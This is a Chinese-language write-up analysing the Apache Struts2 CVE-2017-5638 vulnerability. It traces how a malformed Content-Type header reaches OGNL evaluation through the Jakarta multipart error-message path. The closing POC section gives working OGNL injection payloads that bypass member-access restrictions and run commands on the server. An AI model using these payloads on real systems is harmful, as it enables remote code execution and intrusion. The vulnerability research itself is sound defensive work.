





```
漏洞编号：CVE-2017-5638
漏洞全称：基于Jakarta插件的插件的Struts远程代码执行漏洞
描述：Struts使用的Jakarta解析文件上传请求包不当，当攻击者使用恶意的Content-Type，会导致远程命令执行。
利用条件：Struts 2.3.5 – Struts 2.3.31    Struts 2.5 – Struts 2.5.10
```
已经知道了是因为`Jakarta`插件的问题，那么先全局搜索一下。

可以看到在`struts-default.xml`中设置了此项，属于文件上传bean的定义，`org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest`为默认实现类。跟进去看看。
> 相关知识点：[struts.xml文件中bean配置](http://blog.163.com/artsn@126/blog/static/36533281201111511381316/)

## **JakartaMultiPartRequest**

浏览代码时候，发现了一个十分敏感的代码：
```
    protected String buildErrorMessage(Throwable e, Object[] args) {
        String errorKey = "struts.messages.upload.error." + e.getClass().getSimpleName();
        if (LOG.isDebugEnabled()) {
            LOG.debug("Preparing error message for key: [#0]", errorKey);
        }
        return LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, e.getMessage(), args);
    }
```
尤其是`return LocalizedTextUtil.findText(this.getClass(), errorKey, defaultLocale, e.getMessage(), args);`

多次分析struts2的漏洞便知道，这是一个非常容易产生OGNL表达式注入的地方，后面找了官方的补丁，也正是修补的这个地方。

在这儿打一个断点，然后Burpsuite发一个请求，其中因为是属于用户上传类型，所以需要设置`Content-Type: multipart/form-data`，这样就非常容易的截取到了流量，找到了漏洞发生点以及输入点，就该跟踪数据来形成利用了。

## 追踪

详细看代码后发现只有当出现异常的情况下，这个类才会调用到`buildErrorMessage`，而异常的状态有两个：
* `FileUploadBase.SizeLimitExceededException e`
* `Exception e`

这两个并不是很难理解，就是上传文件大小异常，还有一个就是除此之外的异常。

那我们就先看一下，从`Content-Type`传入到进入异常判断会经过哪些阶段，就看下`parse`被谁调用

在`MultiPartRequestWrapper`的`MultiPartRequestWrapper`中，再看`MultiPartRequestWrapper`的调用

可以看到在`Dispatcher`中被实体化，并且这儿就是判断`Content-Type`的点：
```
        String content_type = request.getContentType();
        if (content_type != null && content_type.contains("multipart/form-data")) {
            MultiPartRequest mpr = getMultiPartRequest();
            LocaleProvider provider = getContainer().getInstance(LocaleProvider.class);
            request = new MultiPartRequestWrapper(mpr, request, getSaveDir(), provider, disableRequestAttributeValueStackLookup);
        } else {
            request = new StrutsRequestWrapper(request, disableRequestAttributeValueStackLookup);
        }
```
只要`Content-Type`中存在`multipart/form-data`，`request`就能够进入到`MultiPartRequestWrapper`中，接着会直接进入到`multi.parse(request, saveDir);`

那么一个`request`请求就可以像这样：
```
GET /orders/5 HTTP/1.1
Host: localhost:8080
Content-Type: multipart/form-data
```
先前说过，payload是构造在`Content-Type`里的，而进入到`buildErrorMessage`里的是异常信息，那么就是说`Content-Type`中的信息会作为异常信息，再换个说法就是需要通过`Content-Type`来产生异常,而发送上面这个请求是能够直接产生异常的，但是问题就是其中并没有包含到`Content-Type`的内容，而是返回的
```
the request was rejected because no multipart boundary was found
```
全局搜索下这个异常描述，定位到了`FileUploadBase`，并在其中发现了其余的异常处理情况

其中第一个异常处理就很有意思，因为这个异常处理正好会将`Content-Type`内容拼接到异常信息中，而这个异常抛出的判断条件就是判断`Content-Type`是否为空或者是否以`MULTIPART`开头，不是的话则抛出异常，那意思就是说，只要将`Content-Type`设置成`1multipart/form-data`，那么就能作为异常信息进入到`buildErrorMessage`

后面的可以参照048的分析看
漏洞的ognl表达式可以确定是在`TextParseUtil`的`translateVariables`中执行的，但是第一次传入时候，却并没有进入到`findValue`中，而是直接到了函数的`return中`，而`return`中又包含着`evaluate()`，跟进去进入到`OgnlTextParser`中，在第49行代码，会将`content-type`中的表达式提取出来，进入到`evaluate`中，在这再次跟进，就返回到了`translateVariables`并在本次进入到了`findValue`


## POC
首先是POC，可以用这个作为模板
```
${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(new java.lang.ProcessBuilder('gedit').start())}
```
然后修改，因为要稳定提供`multipart/form-data`，所以
```
123multipart/form-data${(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(new java.lang.ProcessBuilder('gedit').start())}
```
这个payload并没有弹出文本框，测试后发现是因为没有绕过安全限制
```
123multipart/form-data${(#context.setMemberAccess(@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)).(new java.lang.ProcessBuilder('gedit').start())}
```
这样就行了
后续发现绕过安全限制应当使用的是if判断形式
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(102*102*102*99)).(#ros.flush())}
```


